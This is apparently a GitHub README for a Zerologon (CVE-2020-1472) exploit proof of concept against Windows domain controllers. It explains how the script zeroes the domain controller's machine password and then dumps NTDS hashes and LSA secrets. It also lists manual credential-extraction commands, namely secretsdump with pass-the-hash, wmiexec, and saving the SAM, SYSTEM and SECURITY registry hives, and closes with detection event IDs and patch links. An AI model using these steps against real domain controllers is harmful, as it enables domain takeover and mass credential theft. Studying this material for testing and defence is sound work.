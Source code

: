 # CVE-2020-1472 aka Zerologon Exploit POC
![cve-2020-1742](https://user-images.githubusercontent.com/1679089/93808219-8a607c00-fc00-11ea-9a19-5128a5a533e6.gif)

## What is it?
NetLogon (MS-NRPC), can establish inter-domain control vulnerable security channel.
It's possible to zero out the password for the machine account on domain controllers.

## Notes:
- DC will be semi broken while password is zero'ed out
- Could cause DNS issues with DC (fixed with reboot)
- Kerberos Tickets have a 10 hour lifetime before they expire
- Requires the latest impacket from [GitHub](https://github.com/SecureAuthCorp/impacket) with added netlogon structures.
- Do note that by default this changes the password of the domain controller system account. Yes this allows you to DCSync, but it also breaks communication with other domain controllers, so be careful with this!

## Research it:
- https://www.secura.com/pathtoimg.php?id=2055
- https://twitter.com/_dirkjan/status/1306280553281449985
- For more info and original research view [blog](https://www.secura.com/blog/zero-logon) or review the
[whitepaper](https://blog.stealthbits.com/manipulating-user-passwords-with-mimikatz-SetNTLM-ChangeNTLM/)

## Required Dependencies
- Requires the latest impacket from [GitHub](https://github.com/SecureAuthCorp/impacket) with added netlogon structures.

## Check if vulnerable:
- Default behavior of script is to check if vulnerable and not change anything!

## Usage zerologon.py
* Read the blog/whitepaper above so you know what you're doing
* This script will check domain controllers for CVE-2020-1472.
* If -exploit option provided it will:
  * Zero out the domain controllers system password
  * Will call secretsdump's DRSUAPI with the zeropassword to get ntds hashes
  * Will parse dumped data to get domain admin account with rid :500: and call secretsdump again to get lsa secrets 
  * Will parse second dump for plain_password_hex value 
  * will call restore script with hex value to restore the DC's system password to its original value
  
 ```bash
python zerologon.py 

usage: zerologon.py [-h] [-exploit] dc_name dc_ip

Tests whether a domain controller is vulnerable to the Zerologon attack. Resets the DC account password to an empty string
when vulnerable.

positional arguments:
  dc_name     The (NetBIOS) computer name of the domain controller.
  dc_ip       IP Address of the domain controller.

optional arguments:
  -h, --help  show this help message and exit
  -exploit    Zero out the computer's hash
```

## Manual Restore steps
To resotre the DC to its origninal state you will need to restore the system password to its orginal value. To do this you will need the 'plain_password_hex' value.

#### Reqired - 'plain_password_hex' value:
#### Option #1 (Extract plain_password_hex with secretsdump.py)
If you install a version of impacket from GitHub that was updated on or after September 15th 2020, secretsdump will automatically dump the plaintext machine password (hex encoded) when dumping the local registry secrets.

```bash
secretsdump.py da@da_ip -hashes da_hash -outputfile ntds && grep plain_password_hex ntds.secrets
```
#### Option #2 (Wmiexe.py -> Maunual extraction -> Secretsdump offline)  
Alternatively on slightly older versions you can dump this same password by first extracting the registry hives and then running secretsdump offline (it will then always print the plaintext key because it can't calculate the Kerberos hashes).

```bash
wmiexe.py da@dc_ip -hashes da_hash
```
```bash
reg save hklm\system system
reg save hklm\sam sam
reg save hklm\security security
get system
get sam
get security
del /f system security sam
```
```bash
secretsdump.py -sam sam -system system -security security local | grep hex
```
#### Restore Password
With this password you can run `restorepassword.py` with the `-hexpass` parameter. This will first authenticate with the empty password to the same DC and then set the password back to the original one. Make sure you supply the netbios name and IP again as target. 

Usasge:

```bash
python restorepassword.py domain/dc_name@dc_ip -hexpass plain_password_hex
```
Example:

```bash
python restorepassword.py testsegment/s2016dc@s2016dc -target-ip 192.168.222.113 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3...etc
```
		
## Detect it:
* Event 4661 with privilege request for SetPassword (without knowledge of old password) (screenshot attached)
* Event 4723 for an attempt made to change an account's password
* Event 4738 for a user account being changed for the Password Last Set value
		
## Patch it:
- [CVE-2020-1472 | Netlogon Elevation of Privilege Vulnerability](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472)
- [How to manage the changes in Netlogon secure channel connections associated with CVE-2020-1472](https://support.microsoft.com/en-us/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc)
- [MITRE CVE-2020-1472](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1472)

# Affected systems:
- Windows Server 2008 R2 for x64-based Systems Service Pack 1
- Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
- Windows Server 2012
- Windows Server 2012 (Server Core installation)
- Windows Server 2012 R2
- Windows Server 2012 R2 (Server Core installation)
- Windows Server 2016
- Windows Server 2016 (Server Core installation)
- Windows Server 2019
- Windows Server 2019 (Server Core installation)
- Windows Server, version 1903 (Server Core installation)
- Windows Server, version 1909 (Server Core installation)
- Windows Server, version 2004 (Server Core installation)
